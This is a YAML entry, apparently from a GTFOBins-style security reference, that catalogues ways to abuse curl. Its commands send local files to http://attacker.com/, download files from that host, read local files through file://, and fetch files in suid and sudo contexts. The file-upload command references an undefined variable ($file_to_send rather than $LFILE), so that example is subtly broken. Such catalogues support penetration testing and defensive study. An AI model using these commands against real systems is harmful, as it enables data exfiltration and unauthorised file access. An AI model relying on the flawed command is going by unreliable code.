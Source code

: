 ```yaml
---
name: curl
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo -E curl $URL -o $LFILE
---
```

